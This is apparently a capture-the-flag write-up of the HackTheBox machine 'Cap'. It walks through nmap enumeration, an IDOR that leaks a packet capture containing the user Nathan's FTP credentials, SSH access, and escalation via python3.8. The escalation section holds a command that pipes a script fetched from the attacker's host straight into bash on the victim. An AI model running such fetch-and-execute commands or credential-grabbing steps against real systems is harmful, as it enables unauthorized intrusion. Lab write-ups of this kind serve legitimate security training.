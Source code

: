 ```yaml
---
title: Cap
date: 2022-08-13 14:27
categories: [Linux,IDOR,Packet Capture,SUID Exploitation]
tags: [htb]
--- 
```

Cap is a pretty straight-forward easy level machine on HacktheBox that I had alot of fun completing. We start by finding an IDOR vulnerability on the web server which lets us grab a .pcap file from the past. Opening it with wireshark shows us credentials for a user on the machine, and from there we get to root through an SUID exploit.

### Enumeration

Starting with NMAP, we see that FTP, SSH, and HTTP services are running on ports 21, 22, and 80.

```bash
sudo nmap -sC 10.10.10.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

Before we look at the website, it's always a good idea to check if anonymous login is enabled on the FTP server. 

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Turns out it's disabled-let's just check out the website,seems to be a security monitoring dashboard which contains information on the host's internal network. Potential username on the right side "Nathan".

![site](/assets/img/cap/site.png)

We can see the output of ifconfig

![ifconfig](/assets/img/cap/ifconfig.png)

netstat

![netstat](/assets/img/cap/netstat.png)

and most interestingly, an endpoint on http://10.10.10.245/data/1 that contains a (blank) pcap file from the past 5 seconds.

![data](/assets/img/cap/data.png)
![pcap](/assets/img/cap/pcap.png)

### Using the IDOR to Get Nathan's Credentials

What happens however if we change the url to http://10.10.10.245/data/0 ?

![data](/assets/img/cap/idor.png)
![data](/assets/img/cap/pcap2.png)

we get a packet capture from the past with an insecure direct object reference (IDOR).

![creds](/assets/img/cap/creds.png)

In this case, we can see an in-the-clear successful authentication attempt from Nathan to the FTP server, showing us his credentials. Using these credentials, we can login to the machine through SSH and grab the user flag.

![creds](/assets/img/cap/user.png)

### Privilege Escalation

From here we can get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the box, an awesome script that looks for tons of priv-esc vectors. We start by serving linpeas.sh from our local machine on a simple python http server.

![web](/assets/img/cap/web.png)
![web](/assets/img/cap/mysite.png)

Then from the victim's machine we pull the script from our website and execute it automatically with:

```bash
curl 10.10.14.17:8000/linpeas.sh | bash
```

We get a hit on our server from the victim's IP address, and the script executes on the victim's machine.

![hit](/assets/img/cap/hit.png)

Linpeas found something juicy:
![suid](/assets/img/cap/suid.png)
Nathan has the SUID bit on /usr/bin/python3.8, which can be used to get a root shell on the box with a trick from [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).
![root](/assets/img/cap/root.png)